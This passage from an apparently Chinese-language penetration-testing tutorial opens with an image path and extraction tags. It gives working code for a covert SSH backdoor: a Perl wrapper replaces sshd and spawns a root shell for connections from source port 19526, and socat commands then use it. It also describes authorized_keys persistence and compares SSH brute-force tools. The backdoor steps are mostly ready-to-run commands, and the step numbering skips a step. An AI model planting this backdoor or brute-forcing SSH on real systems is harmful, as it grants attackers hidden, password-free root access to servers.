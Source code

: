 **（2）编辑sshd**

```bash
vi sshd # 加入以下内容并保存#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..LF/);
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
```

**（4）修改权限**

```bash
chmod 755 sshd
```

**（5）使用socat**

```bash
socat STDIOTCP4:target_ip:22,sourceport=19526
```

如果没有安装socat需要进行安装并编译

```bash
wget http://www.dest-unreach.org/socat/download/socat-1.7.3.2.tar.gz
tar -zxvf socat-1.7.3.2.tar.gz
cd socat-1.7.3.2
./configure
make
make install
```

**（6）使用 `ssh root@ target_ip` 即可免密码登录**

### 3. ssh公钥免密

将本地计算机生成公私钥，将公钥文件复制到需要连接的服务器上的~/.ssh/authorized_keys文件，并设置相应的权限，即可免密码登录服务器。

```bash
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```

## 八、ssh暴力破解命令总结及分析

### 1.所有工具的比较

通过对hydra、medusa、patator、brutepray以及msf下的ssh暴力破解测试，总结如下：

（1）每款软件都能成功对ssh账号以及密码进行破解。

（2）patator和brutepray是通过python语言编写，但brutepray需要medusa配合支持。

（3）hydra和medusa是基于C语言编写的，需要进行编译。

（4）brutepray基于nmap扫描结果来进行暴力破解，在对内网扫描后进行暴力破解效果好。

（5）patator基于python，速度快，兼容性好，可以在windows或者linux下稍作配置即可使用。

（6）如果具备kali条件或者PentestBox下，使用msf进行ssh暴力破解也不错。
